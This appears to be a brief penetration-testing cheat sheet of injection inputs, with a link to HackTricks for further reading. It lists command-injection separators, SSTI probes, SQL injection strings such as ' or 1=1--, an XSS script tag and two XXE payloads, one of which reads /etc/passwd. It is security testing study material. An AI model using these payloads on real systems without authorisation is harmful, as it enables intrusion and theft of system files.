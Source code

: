 # 3 injection attacks

## Command injection

For injection commands into text fields / URLs use the following characters

```shell
;
|
``
```

## SSTI

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

## SQL injection

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

## XSS

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## XXE
Two payloads you can try are listed below.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

